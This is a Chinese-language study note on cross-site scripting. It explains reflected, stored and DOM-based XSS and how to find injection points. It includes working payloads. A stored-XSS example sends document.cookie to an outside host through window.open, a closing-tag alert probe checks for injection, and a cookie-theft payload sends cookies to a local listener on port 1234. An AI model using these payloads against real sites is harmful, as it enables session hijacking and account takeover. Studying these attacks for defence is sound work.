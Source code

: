 我们的 XSS 攻击利用了我们的 JavaScript 语言，把我们的**原本的文本信息**，解析为了我们的**脚本语言**, 从而导致我们的用户在**连接网站的时候**，产生了对应的错误。

也就是让别的用户**执行了**我们预先写好的**JS 代码**。而这里我们为什么能让别的用户执行，就是一个好的问题了。

而因此，我们能够实现的功能，就是取决于，**我们的 JS 代码**可以完成什么。

## 常见形式：
`反射型XSS攻击原理：` 攻击者发送给被攻击者一个邮件信息或者链接，当被攻击者点击并访问该链接时，此时就会向攻击者的目标服务器发起请求，此时根据请求返回相关的 `script` 代码，当浏览器解析这些 `script` 代码时，此时代码就会在浏览器执行，造成用户被攻击。  **也就是说，只有我们的用户主动访问我们的对应网站的时候，我们的攻击才会生效**。

`下面我们看一个小例子`，模拟一下 `xss` 攻击。

![[Pasted image 20240509132133.png]]

当我们访问一个网站时，此时如果攻击者在该网站上设置了一个恶意连接，此时当我们点击该链接时，就会向攻击者服务器发起请求，返回对应的脚本，此时当浏览器加载该脚本文件时，就会出现 `token` 或者 `cookie` 等信息的泄漏。

`存储型XSS攻击` 是持久性攻击方式，因为该攻击的代码会提交到服务器中的数据中进行保存。此时我们可以看一个例子：比如说存在一个博客网站，每一个用户都可以在该博客网站上发表博客。此时当用户写入了一些 `js` 代码例如：

```
<script>window.open("http://www.fordldmc.com?params=" + document.cookie)</script>
```

此时如果不加处理，就会保存在服务器的数据库中，此时当其他用户访问该博客时，用户的浏览器就会执行这段 script 代码，此时本地的 `cookie` 就会发送到 `http://www.fordldmc.com` 这个网址上，造成 cookie 泄漏。攻击者就会拿到 cookie 冒充用户身份，登录账号。  


我们的客户端的 js 可以对 DOM 节点进行动态的操作，比如插入，修改页面的内容。比如说客户端从 url 中提取数据并且在本地执行，如果用户在客户端输入的数据包含了恶意的 js 脚本的话，但是这些脚本又没有做过任何过滤处理的话，那么我们的应用程序就有可能受到 `DOM-based XSS` 攻击，因此 DOM 型 XSS 攻击步骤如下。  
`1、`攻击者构造出特殊的`url`，其中包含恶意代码。  
`2、`用户打开带有恶意代码的url。  
`3、`用户浏览器接收到响应后解析执行，前端取出恶意代码并执行。  
`4、`恶意代码窃取用户数据并且发送到攻击者的网站，冒充用户的行为。  
`DOM-based xss`和之前两种xss攻击的区别，`DOM-based xss`是前端的漏洞，但是前面两个是服务器的漏洞。  
下面看一下简单案例：  
![在这里插入图片描述](https://img-blog.csdnimg.cn/d8e1d9bbc21f44b8ab93acb2d33c97d6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5Y2W6I-c55qE5bCP55m9,size_20,color_FFFFFF,t_70,g_se,x_16)
## 位点：
我们的 XSS 的位点检测一般来说是在下面的几个条件：
1. 我们输入什么，就返回什么

在这个时候，我们可以考虑使用 `p>` 来闭合，然后再在我们的之后写一个对应的内容，例如：
```
p><script>alert(1)</script>
```

最后，如果我们回显：`1`，那么就说明我们当前已经得到了一个 xss 漏洞。

## 获取信息：
1. 获取我们的当前页面的 cookie,**并且把信息带出**，这个时候，我们只需要在本机上监听对应的单口即可。
```
p><script>window.location.href("http://127.0.0.1:1234?q="%2bdocument.cookie")</script>
```

